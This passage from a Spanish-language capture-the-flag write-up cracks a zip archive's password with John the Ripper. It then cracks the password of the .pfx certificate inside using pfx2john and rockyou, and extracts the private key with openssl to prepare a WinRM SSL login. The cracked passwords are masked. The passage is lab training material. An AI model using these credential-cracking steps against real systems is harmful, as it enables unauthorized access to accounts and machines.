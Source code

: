~~~bash
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<Encuentre su contraseña>    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-10-04 14:47) 2.083g/s 7236Kp/s 7236Kc/s 7236KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
Al descomprimir el contenido se puede ver un archivo .pfx, por experiencia parece ser un certificado,
~~~bash
unzip winrm_backup.zip                                          
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    

ls
legacyy_dev_auth.pfx  winrm_backup.zip
~~~
yo pensé que solo se utilizaban en adcs, pero luego pensé, por lo visto en el escaneo de nmap, solo se tenia abierto el puerto 5986 que es winrm por SSL, asi que creo que solo existirian dos formas de entrar:
- Mediante la explotación de una vulnerabilidad de algun servicio.
- Mediante ciertas claves para entrar por winrm SSL (asi como id_rsa en ssh).
Habiendo encontrado un certificado y teniendo en cuentas el nombre del archivo zip "winrm_backup" me declinare a la segunda opción, asi que realizando una investigación encontre algo interesante, con el certificado y usando herramientas como openssl se puede obtener la clave privada y clave publica para poder ingresar por winrm.
~~~bash
openssl pkcs12 -in legacyy_dev_auth.pfx -out certificado_salida.cer -nokeys 
Enter Import Password:
Can't read Password
~~~
Como se puede ver, esto pide una contraseña, por lo que se utilizara otra herramienta de la familia de john como pfx2john.
~~~
pfx2john legacyy_dev_auth.pfx > hash_pfx                                   
                                                                   
sudo john hash_pfx --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<Encuentre su contraseña>       (legacyy_dev_auth.pfx)     
1g 0:00:03:38 DONE (2025-10-04 16:22) 0.004581g/s 14805p/s 14805c/s 14805C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
Ahora si colocando la contraseña se obtiene tanto la llave privada como la publica para despues entrar por winrm.
~~~
openssl pkcs12 -in legacyy_dev_auth.pfx -out certificado_salida.cer -nokeys

openssl pkcs12 -in legacyy_dev_auth.pfx -out privateKey.key -nocerts -nodes
~~~
Con eso ya tenemos las claves, ahora solo queda probar si es posible entrar con ello.

---